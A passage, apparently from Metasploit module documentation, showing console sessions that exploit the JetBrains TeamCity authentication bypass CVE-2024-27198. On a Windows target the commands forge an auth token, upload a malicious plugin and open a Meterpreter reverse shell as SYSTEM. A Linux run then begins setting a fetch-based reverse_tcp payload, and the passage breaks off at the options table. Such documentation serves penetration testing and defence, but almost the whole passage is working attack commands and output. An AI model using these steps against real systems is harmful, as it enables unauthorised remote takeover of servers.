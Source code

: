 ```
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 192.168.86.68:8111 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Windows Server 2022.
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Windows Server 2022.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.ZHpiZmNJMlB1b2Zqam5NSkw0bk1JS1hFdlZz.MjVjZDQ3YjEtODM2YS00Y2I1LWE3ODEtMzUzMTgzMDc4NjA3
[*] Uploading plugin: RzeS0eJP
[*] Deleting the plugin...
[*] Sending stage (201798 bytes) to 192.168.86.68
[*] Deleting the authentication token...
[+] Deleted C:\TeamCity\work\Catalina\localhost\ROOT\TC_147512_RzeS0eJP
[*] Meterpreter session 3 opened (192.168.86.42:4444 -> 192.168.86.68:53113) at 2024-02-23 14:21:43 +0000
[!] This exploit may require manual cleanup of 'C:\ProgramData\JetBrains\TeamCity\system\caches\plugins.unpacked\RzeS0eJP' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-CMULENHFCK7
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > pwd
c:\TeamCity\bin
meterpreter > 
```

### Linux Command

Note: Ensure the target is a Linux target by confirming via the `check` command.

Note: Ensure the `FETCH_COMMAND` is set to a suitable value, such as `CURL`.

Note: Ensure the `FETCH_WRITABLE_DIR` is set to a suitable value, such as `/tmp`.

```
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RHOSTS 192.168.86.43
RHOSTS => 192.168.86.43
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 192.168.86.43:8111 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set target 3
target => 3
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp 
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set FETCH_WRITABLE_DIR /tmp
FETCH_WRITABLE_DIR => /tmp
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
```